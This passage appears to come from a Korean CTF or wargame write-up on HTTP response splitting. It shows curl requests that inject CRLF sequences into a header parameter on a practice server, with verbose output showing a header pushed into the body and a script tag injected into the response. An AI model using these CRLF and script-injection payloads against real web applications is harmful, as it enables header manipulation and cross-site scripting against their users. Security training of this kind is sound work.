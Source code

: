 
```bash
curl -v http://war.knock-on.org:10013/ -d "header=header1: value1%0D%0A%0D%0Aheader2&value=value2"
```

```bash
* Host war.knock-on.org:10013 was resolved.
* IPv6: 64:ff9b::3b12:d88d
* IPv4: 59.18.216.141
*   Trying [64:ff9b::3b12:d88d]:10013...
* Connected to war.knock-on.org (64:ff9b::3b12:d88d) port 10013
> POST / HTTP/1.1
> Host: war.knock-on.org:10013
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 54
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.3 Python/3.10.12
< Date: Sat, 14 Sep 2024 12:50:00 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 51
< header1: value1
<
header2: value2
Connection: close

* Excess found writing body: excess = 38, size = 51, maxdownload = 51, bytecount = 51
* Closing connection
I't is very g
```

```bash
"header=header1: value1%0D%0A%0D%0Aheader2&value=value2"
```

첫 번째 헤더의 `value` 뒷부분에 `CRLF`를 두 개 추가하면 두 번째 헤더를 본문으로 인식시킬 수 있음

|

### 1-4. 본문에 내용 추가

```bash
curl -v http://war.knock-on.org:10013/ -d "header=header1: value1%0D%0A%0D%0A<script>alert(123)</script>header2&value=value2"

* Host war.knock-on.org:10013 was resolved.
* IPv6: 64:ff9b::3b12:d88d
* IPv4: 59.18.216.141
*   Trying [64:ff9b::3b12:d88d]:10013...
* Connected to war.knock-on.org (64:ff9b::3b12:d88d) port 10013
> POST / HTTP/1.1
> Host: war.knock-on.org:10013
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 81
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.3 Python/3.10.12
< Date: Sat, 14 Sep 2024 13:00:42 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 51
< header1: value1
<
<script>alert(123)</script>header2: value2
```